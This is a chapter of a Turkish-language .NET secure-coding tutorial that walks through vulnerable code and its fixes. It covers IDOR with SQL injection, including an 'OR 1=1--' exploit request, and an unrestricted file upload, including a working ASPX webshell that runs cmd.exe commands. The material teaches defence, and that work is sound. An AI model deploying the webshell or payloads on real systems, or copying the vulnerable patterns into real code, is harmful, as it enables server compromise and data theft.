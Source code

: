 # 17. Uygulamalı Saldırı Senaryoları

## 17.1 Zafiyetli .NET Uygulama İncelemesi

Bu senaryoda, bir e-ticaret uygulamasında yer alan `OrderController` sınıfındaki zafiyetli kod incelenmektedir. Amaç, doğrudan nesne referansı (IDOR) ve SQL injection gibi zafiyetlerin tespiti ve sömürülmesidir.

### Zafiyetli Kod Örneği – IDOR + SQLi

```csharp
public class OrderController : Controller
{
    private readonly SqlConnection _connection;

    public OrderController()
    {
        _connection = new SqlConnection("Server=.;Database=ShopDb;Trusted_Connection=True;");
    }

    public IActionResult Details(int id)
    {
        var query = $"SELECT * FROM Orders WHERE Id = {id}";
        var cmd = new SqlCommand(query, _connection);
        _connection.Open();
        var reader = cmd.ExecuteReader();
        Order order = null;

        if (reader.Read())
        {
            order = new Order
            {
                Id = (int)reader["Id"],
                UserId = (int)reader["UserId"],
                ProductName = (string)reader["ProductName"],
                Price = (decimal)reader["Price"]
            };
        }

        _connection.Close();
        return View(order);
    }
}
```

### Zafiyetin Tespiti

- `UserId` kontrolü yapılmadığı için, kullanıcı başkasına ait siparişi görüntüleyebilir (IDOR).
- `id` parametresi doğrudan sorguya dahil ediliyor, bu da SQL injection riskini doğurur.

### Exploit Senaryosu

Saldırgan aşağıdaki gibi bir istek göndererek SQL sorgusunu manipüle edebilir:

```
GET /order/details?id=1 OR 1=1--
```

Bu durumda tüm siparişler listelenebilir veya başka bir kullanıcının siparişi görüntülenebilir.

### Güvenli Kod ile Refactor

```csharp
public IActionResult Details(int id)
{
    var userId = int.Parse(User.FindFirst(ClaimTypes.NameIdentifier).Value);
    var query = "SELECT * FROM Orders WHERE Id = @id AND UserId = @userId";
    var cmd = new SqlCommand(query, _connection);
    cmd.Parameters.AddWithValue("@id", id);
    cmd.Parameters.AddWithValue("@userId", userId);
    _connection.Open();
    var reader = cmd.ExecuteReader();

    Order order = null;
    if (reader.Read())
    {
        order = new Order
        {
            Id = (int)reader["Id"],
            UserId = (int)reader["UserId"],
            ProductName = (string)reader["ProductName"],
            Price = (decimal)reader["Price"]
        };
    }

    _connection.Close();
    return View(order);
}
```

---

## 17.2 Kaynak Koddan Zafiyet Bulma

Analiz sırasında dikkat edilmesi gerekenler:

- Giriş parametreleri doğrudan SQL, HTML, komut satırı gibi bağlamlara dahil edilmiş mi?
- Kullanıcı kimliği kontrolü ihmal edilmiş mi?
- View, Controller ve Service katmanları arasındaki veri akışı izlenebilir mi?

Kod tarama araçları (örn. Roslyn Analyzer) bu işlemi yarı otomatik hale getirebilir. Ancak manuel analiz, bağlam farkındalığı için zorunludur.

---

## 17.3 Exploit Geliştirme Aşamaları

Senaryo: Bir `upload` endpoint’i, dosya uzantı kontrolü yapmaksızın gelen dosyaları `wwwroot/uploads/` klasörüne koyuyor.

### Zafiyetli Kod

```csharp
[HttpPost]
public async Task<IActionResult> Upload(IFormFile file)
{
    var filePath = Path.Combine("wwwroot/uploads", file.FileName);
    using (var stream = new FileStream(filePath, FileMode.Create))
    {
        await file.CopyToAsync(stream);
    }
    return Ok("Dosya yüklendi.");
}
```

### Zafiyet: File Upload Abuse

- `.aspx`, `.cshtml` gibi dosyalar yüklenirse sunucuda çalıştırılabilir.
- Saldırgan `webshell.aspx` benzeri bir dosya yükleyerek uzaktan komut çalıştırabilir.

### Exploit Dosyası

`webshell.aspx`:

```aspx
<%@ Page Language="C#" %>
<% 
    var cmd = Request["cmd"];
    var proc = new System.Diagnostics.Process();
    proc.StartInfo.FileName = "cmd.exe";
    proc.StartInfo.Arguments = "/c " + cmd;
    proc.StartInfo.UseShellExecute = false;
    proc.StartInfo.RedirectStandardOutput = true;
    proc.Start();
    string output = proc.StandardOutput.ReadToEnd();
    Response.Write(output);
%>
```

Yükleme sonrası URL:

```
http://target/uploads/webshell.aspx?cmd=whoami
```

### Güvenli Kod

```csharp
var allowedExtensions = new[] { ".jpg", ".png", ".pdf" };
var extension = Path.GetExtension(file.FileName).ToLowerInvariant();

if (!allowedExtensions.Contains(extension))
{
    return BadRequest("Geçersiz dosya uzantısı.");
}
```

---

## 17.4 Güvenli Kod ile Refactor Süreci

Zafiyetli bölümler tek tek tespit edildikten sonra:

1. **Kod izolasyonu** yapılmalı (örneğin UploadService).
2. **Taint kaynakları** belirlenmeli (kullanıcı girdileri).
3. **Validator ve encoder** sınıfları devreye alınmalı.
4. **Test senaryoları** hazırlanmalı (birim testi + güvenlik testi).
5. **Static analysis** araçlarıyla tekrar tarama yapılmalı.
6. Refactor sonrası loglama ve audit mekanizmaları aktif hale getirilmeli.

Kod değişimi sadece zafiyeti kapatmakla kalmamalı, aynı tür hataların tekrarını da önleyecek altyapıyı sağlamalıdır.
